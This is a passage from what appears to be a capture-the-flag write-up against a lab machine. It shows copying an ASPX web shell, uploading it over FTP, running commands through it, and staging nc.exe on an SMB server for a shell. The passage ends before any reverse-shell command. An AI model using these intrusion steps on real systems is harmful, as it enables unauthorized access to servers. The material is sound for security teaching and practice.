     
    
    root@kali# locate cmd.aspx
    /usr/share/davtest/backdoors/aspx_cmd.aspx
    /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
    root@kali# cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
    

Now I’ll upload it over ftp:

    
    
    ftp> put cmd.aspx  
    local: cmd.aspx remote: cmd.aspx 
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.                              
    1442 bytes sent in 0.00 secs (985.4465 kB/s) 
    

### Webshell Execition

Now I can just visit `http://10.10.10.5/cmd.aspx` and I get a form:

![1550832779390](https://0xdfimages.gitlab.io/img/1550832779390.png)

Running `whoami` gives me output:

![1550832798627](https://0xdfimages.gitlab.io/img/1550832798627.png)

### Shell

I’ll show three ways to get a shell from here, using `nc.exe`,
[Nishang](https://github.com/samratashok/nishang), and `meterpreter`.

#### nc.exe

On a Windows host, my favorite way to move files back and forth is with
`smbserver.py`. I’ll make a directory called smb, and copy `nc.exe` into it:

    
    
    root@kali# mkdir smb
    root@kali# locate nc.exe
    /opt/SecLists/Web-Shells/FuzzDB/nc.exe
    /opt/shells/netcat/nc.exe
    /usr/lib/mono/4.5/cert-sync.exe
    /usr/share/seclists/Web-Shells/FuzzDB/nc.exe
    /usr/share/sqlninja/apps/nc.exe
    /usr/share/windows-binaries/nc.exe
    root@kali# cp /usr/share/windows-binaries/nc.exe smb/
    

Now I’ll start the smb server:

    
    
    root@kali# smbserver.py share smb
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    